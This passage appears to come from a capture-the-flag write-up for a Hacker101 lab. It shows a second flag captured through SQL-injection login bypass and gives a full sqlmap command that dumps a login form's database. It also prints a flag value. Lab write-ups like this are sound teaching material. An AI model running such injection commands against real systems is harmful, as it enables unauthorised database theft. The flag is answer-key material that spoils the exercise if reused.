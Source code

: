 ![PrivateFlag](PrivateFlag.png)
*Successfully logged in and accessing previously forbidden page 3*

I navigated to the previously forbidden `/page/edit/3` endpoint and discovered the second flag embedded in the page content.

### 🏁 Second Flag Captured
```
^FLAG^cb72b1fdf1d8022037410a03a8015b20b370840474bd32314d409378088a0bb6$FLAG$
```

**Vulnerability:** SQL injection in authentication mechanism allowing complete bypass.

---

## 🚩 Flag 3: Automated SQL Injection with SQLMap

### Understanding SQLMap Parameters

SQLMap is a powerful automated SQL injection tool. Here's a breakdown of the command used:

```bash
sqlmap -u https://4eaf579a76255142ee4a5e79d0455be4.ctf.hacker101.com/login \
       --data "username=abc&password=xyz" \
       -p username \
       --dbms=mysql \
       --dump \
       --threads 10
```

**Parameter Breakdown:**
